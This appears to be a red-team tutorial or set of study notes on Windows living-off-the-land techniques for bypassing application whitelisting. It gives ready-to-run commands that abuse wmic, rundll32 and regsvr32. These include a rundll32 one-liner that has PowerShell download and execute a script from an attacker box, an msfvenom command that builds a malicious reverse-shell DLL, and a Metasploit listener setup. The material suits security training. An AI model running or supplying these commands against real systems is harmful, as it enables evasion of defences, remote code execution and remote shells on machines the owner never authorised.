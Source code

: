 **wmic:**

It is a Windows command-line utility that manages Windows components. Researchers found that WMIC can be used to execute binaries evading defensive measures.

```C
wmic.exe process call create calc
```

**rundll32:**

It is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript (with a caveat) and PowerShell scripts.

```C
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

- `mshtml.dll` is a Internet Explorer/HTML engine, which supports running JScript/VBScript.

Command to run a JavaScript that executes a PowerShell script to download from a remote website:

```C
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

## Application Whitelisting Bypasses
---
Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. It is a feature from Microsoft Endpoint Security Suite.

**Regsvr32:**

**Intended Purpose:** register and unregister Dynamic Link Libraries (DLLs) in Windows Registry.

Adversaries leverage regsvr32.exe to execute native code or scripts locally or remotely. The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why this technique is also used to bypass application whitelisting.

- C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Demonstration:

**1. Create a malicious .dll using msfvenom**

```C
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
```

**2. Create a Metasploit listener to receive a reverse shell**

```C
msfconsole -q 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
set LHOST ATTACKBOX_IP
set LPORT 443 
exploit
```
